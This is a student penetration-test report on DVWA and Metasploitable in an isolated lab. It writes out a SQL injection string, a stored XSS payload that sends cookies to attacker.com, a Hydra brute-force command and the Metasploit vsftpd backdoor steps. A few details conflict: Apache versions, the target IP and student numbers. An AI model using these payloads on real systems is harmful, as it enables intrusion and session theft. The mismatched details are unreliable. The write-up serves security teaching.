# Web Application Penetration Test on Damn Vulnerable Web Application (DVWA)

University of Wollongong in Dubai (UOWD)  
CSCI369 Ethical Hacking (Assessment 3: Assignment Cum Project)  
Lecturer: Dr. Mouhannad Alattar  

Authors:
- Raheel Ahmed (8971134, rmas840@uowmail.edu.au)
- Ahan Sunil (8398112, as8997@uowmail.edu.au)
- Hriday Pradeep (8890766, hpk687@uowmail.edu.au)
- Kishan Dhanak (9072974, krd341@uowmail.edu.au)
- Sibi Varghese (8935166, svp967@uowmail.edu.au)

## Executive Summary

This project documents a comprehensive, ethical penetration test performed in a controlled and fully isolated virtual laboratory. The target environment was built around the Damn Vulnerable Web Application (DVWA) running on an Ubuntu LAMP server, alongside a Metasploitable virtual machine for broader network exploitation testing. Kali Linux served as the central attack platform.

The objective was to follow the standard stages of an ethical penetration test (reconnaissance, network traffic capture, scanning and enumeration, and active exploitation), uncover critical web and infrastructure vulnerabilities, and deliver practical defense-in-depth mitigations.

### Key Findings
- Unencrypted HTTP traffic allowed passive interception of plaintext administrator credentials in transit.
- Active web application exploitation confirmed critical vulnerabilities including SQL Injection (dumping user tables and password hashes) and Cross-Site Scripting (both Reflected and Stored XSS).
- The absence of login rate limiting permitted automated credential brute-forcing with Hydra and the RockYou dictionary in under three minutes.
- Infrastructure scanning detected an unpatched vsftpd 2.3.4 service with a known backdoor (CVE-2011-2523), leading to complete system takeover with a remote root shell via Metasploit.

All testing was carried out strictly inside an isolated VirtualBox NAT network adhering to NIST SP 800-115 guidelines and UOWD ethical safety boundaries.

## Target Environment and Architecture

The laboratory environment consists of an isolated VirtualBox NAT Network (10.0.2.0/24). Virtual machines communicate with each other but have no routing to external networks or the public internet.



### Nodes in the Lab
1. Attacker Node (Kali Linux): Dedicated security testing distribution with pre-installed assessment tools (Nmap, Nikto, Wireshark, Burp Suite, Hydra, Metasploit).
2. Web Target Node (Ubuntu Server, IP: 10.0.2.7): Hosts the LAMP stack (Apache 2.4, MariaDB 10.3, PHP) running the Damn Vulnerable Web Application (DVWA).
3. Secondary Target Node (Metasploitable): Deliberately vulnerable Linux environment used to test secondary network services and infrastructure backdoors.





## Tools and Justification

| Tool | Category | Role in the Assessment |
| :--- | :--- | :--- |
| Nmap | Footprinting and Scanning | Network discovery, active port scanning, service version detection, and operating system fingerprinting. |
| Nikto | Web Server Scanning | Automated vulnerability scanning for web server misconfigurations, dangerous files, outdated components, and missing security headers. |
| Wireshark | Traffic Analysis | Packet capture and protocol analysis across the virtual subnet to inspect cleartext transport protocols. |
| Burp Suite | Interception Proxy | Web application testing proxy used to inspect, modify, and replay HTTP requests and analyze session tokens. |
| Hydra | Credential Cracking | High-speed network logon cracker used to test the resilience of the login endpoint against dictionary attacks. |
| Metasploit | Exploitation Framework | Automated exploitation tool used to verify infrastructure vulnerabilities and gain administrative shell access. |

## Penetration Testing Phases

### Phase 1: Footprinting and Reconnaissance

Active reconnaissance was initiated against the Ubuntu target node (10.0.2.7) using Kali Linux. A full service and version scan was executed:

```bash
nmap -sV -A 10.0.2.7
```



The scan identified two core services exposed on the target:
- Port 80/tcp: Apache 2.4.58 running on Ubuntu, serving the web application.
- Port 3306/tcp: MariaDB 10.3.23 database service, representing a direct backend vector.

### Phase 2: Network Traffic Capture and Credential Leakage

To assess transport layer exposure under unencrypted HTTP communications, authentication traffic was simulated by submitting credentials through a web login form. Wireshark was deployed on the Kali Linux machine to capture live subnet packets.





Wireshark traffic was filtered for HTTP POST requests:

```
http.request.method == "POST"
```



Using the "Follow HTTP Stream" feature in Wireshark, the full application interaction was reconstructed. Because communication occurred over cleartext HTTP without TLS encryption, sensitive authentication credentials were exposed directly in the TCP stream payload:

```
username=admin&password=password123
```



This verified that an eavesdropper on the local segment can capture credentials passively without altering any system state.

### Phase 3: Vulnerability Scanning and Directory Enumeration

Automated web application scanning was conducted using Nikto:

```bash
nikto -h http://10.0.2.7
```



Nikto highlighted several key security weaknesses:
- Outdated server banner leaking exact software version details.
- Missing defensive HTTP response headers, including X-Frame-Options and X-Content-Type-Options.
- PHPSESSID cookie transmitted without the HttpOnly attribute, leaving session tokens exposed to client-side script theft.
- Publicly accessible directories and dot-files, including a visible .gitignore manifest.

Directory brute-forcing was carried out using DIRB:

```bash
dirb http://10.0.2.7
```



DIRB identified multiple sensitive paths with directory indexing enabled, exposing administrative files and configuration scripts:
- `/config/` (configuration directory with listable files)
- `/docs/` (documentation directory)
- `/external/` (third-party dependencies)
- `/phpinfo.php` (complete PHP configuration and environment variables)
- `/robots.txt` (revealing restricted search paths)

#### Vulnerability Mapping Matrix

| Finding | Location | Severity | Reference |
| :--- | :--- | :--- | :--- |
| Outdated Apache 2.4.25 Component | Port 80 | High | CVE-2017-7679, OWASP A06:2021 |
| Directory Indexing Enabled | `/config/`, `/docs/` | High | OWASP A05:2021 |
| Sensitive Environment Disclosure | `/phpinfo.php` | Medium | OWASP A05:2021 |
| Missing Defensive HTTP Headers | HTTP Response | Medium | OWASP A05:2021 |
| Session Cookie Missing HttpOnly Flag | HTTP Response | Medium | OWASP A07:2021 |
| Unrestricted Cleartext Login Endpoint | `/login.php` | Informational | OWASP A07:2021 |

### Phase 4: Active Exploitation

#### 1. SQL Injection (SQLi)
The authentication and lookup parameters on DVWA were tested for SQL injection vulnerabilities. A classic UNION-based injection string was supplied:

```sql
1' UNION SELECT user, password FROM users#
```



The application executed the injected query directly against MariaDB without sanitization or parameterization, dumping all user accounts and MD5 password hashes on screen:



Extracted MD5 hashes were cracked via CrackStation within seconds, revealing the administrative credential pair `admin:password`.

#### 2. Cross-Site Scripting (XSS)
Both Reflected and Stored XSS vulnerabilities were verified on the application:

Reflected XSS: Submitting an unencoded JavaScript snippet into the user greeting parameter triggered execution immediately in the browser session:

```html
<script>alert('XSS')</script>
```



Stored XSS: The guestbook submission form failed to validate or encode persistent user input. An exploitation payload designed to exfiltrate cookies was submitted:

```html
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>
```



The script was committed to the MariaDB backend and executed automatically in the browser of any user viewing the guestbook, demonstrating full session hijacking capability.

#### 3. Automated Password Brute-Force Testing (Hydra)
Because the login endpoint implemented no lockout mechanisms, automated credential attacks were performed using Hydra and the `rockyou.txt` dictionary:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.7 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect"
```



Hydra cracked the administrator password within minutes without triggering any rate limit, temporary ban, or account lockout.

#### 4. Burp Suite Proxy and Metasploit OS Exploitation
Burp Suite was used to inspect session tokens and anti-CSRF tokens passed during authentication flows:



In parallel, network exploration of the Metasploitable machine revealed an unpatched vsftpd 2.3.4 FTP service. This specific version contains a known backdoor (CVE-2011-2523) triggered when a smiley face `:)` is sent in the username field, opening a listening root shell on port 6200.

Metasploit was launched and the corresponding exploit module was executed:

```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.7
run
```



The exploit spawned an interactive root shell without requiring prior authentication. Running `whoami` verified full root privileges, marking a complete host compromise.

## Mitigations and Hardening Recommendations

To address the vulnerabilities identified during testing, a defense-in-depth security approach was developed covering three layers:

### 1. Application-Level Mitigations
- Parameterized Queries: Refactor all database calls in PHP to use PDO prepared statements with bound parameters, preventing SQL injection fundamentally by separating SQL commands from user input.
- Context-Aware Output Encoding: Apply htmlspecialchars with appropriate flags before rendering user-supplied data in HTML, attribute, or JavaScript contexts to prevent XSS execution.
- Content Security Policy (CSP): Deploy a strict `Content-Security-Policy` header restricting script execution to approved sources and disabling inline script execution.
- Cookie Protection: Enforce `HttpOnly` and `Secure` attributes on all session cookies to prevent cookie theft through client-side script injection.
- Login Rate Limiting and Lockouts: Implement progressive delays and temporary lockouts after multiple failed login attempts to neutralize automated Hydra brute-force tools.

### 2. Infrastructure and LAMP Server Hardening
- Disable Directory Indexing: Add `Options -Indexes` in `apache2.conf` to block directory listing and prevent information leakage.
- Suppress Server Banners: Configure `ServerTokens Prod` and `ServerSignature Off` in Apache to prevent automated version reconnaissance.
- PHP Configuration Hardening: Set `display_errors = Off` in `php.ini` to avoid leaking database query structures in error messages. Disable hazardous execution functions using `disable_functions = exec, shell_exec, system, passthru`.
- Database Least Privilege: Restrict MariaDB application user permissions to minimum necessary operations (SELECT, INSERT, UPDATE). Disallow remote root logins and bind MariaDB strictly to `127.0.0.1`.
- Enforce HTTPS: Implement TLS certificates and enforce HTTPS across all virtual hosts using HTTP-to-HTTPS redirects and HTTP Strict Transport Security (HSTS).

### 3. Network Defenses and Monitoring
- Web Application Firewall (WAF): Deploy ModSecurity on Apache with OWASP Core Rule Set (CRS) to detect and block SQLi, XSS, and exploit payloads before they reach the web application.
- Host Firewall Rules: Configure UFW or iptables to restrict external access to database port 3306, allowing connections only from the local host.
- Centralized Audit Logging: Enable and monitor access, error, and slow-query logs across Apache, PHP, and MariaDB to detect anomalous request patterns and brute-force attempts in real time.

## Evaluation and Technical Challenges

### What Worked Well
- The isolated VirtualBox NAT lab provided clean network visibility for Wireshark packet analysis and multi-VM exploitation without external noise.
- Scanning outputs from Nmap, Nikto, and DIRB mapped accurately to OWASP Top 10 categories and guided targeted manual exploitation.
- The exploitation phase demonstrated full impact, progressing from basic credential sniffing to database dumping and an administrative root shell.
- Mitigation recommendations were tied directly to specific configuration files and code fixes rather than generic concepts.

### Technical Hurdles and Solutions
- Kali DHCP Lease: The Kali VM initially failed to obtain an IP lease on the NAT network. This was resolved by manually assigning a static configuration and recycling the VirtualBox NAT service.
- PHP Compatibility: Incompatibilities between PHP 8.5 and the legacy `pdo_mysql` driver required transitioning from a manual native LAMP setup to a Docker-managed DVWA container to ensure consistent runtime stability.
- Metasploit Login Module Limitations: The standard `http_login` module in Metasploit did not easily parse DVWA's CSRF token format. The team pivoted to Hydra, which successfully extracted credentials against the target form.

## Team Contributions

| Student Number | Full Name | Contribution Description | Contribution |
| :---: | :--- | :--- | :---: |
| 8971134 | Raheel Ahmed | Footprinting, reconnaissance phase, report synthesis and document compilation. | 20% |
| 8890766 | Ahan Sunil | Vulnerability scanning, service enumeration, and lab virtual machine setup. | 20% |
| 9072974 | Kishan Dhanak | Infrastructure exploitation, service backdoor testing, and Hydra brute-force execution. | 20% |
| 8398112 | Hriday Pradeep | Network packet capture, Wireshark analysis, and transport security auditing. | 20% |
| 8935166 | Sibi Varghese | Web application exploitation (SQL Injection, XSS) and defensive hardening recommendations. | 20% |

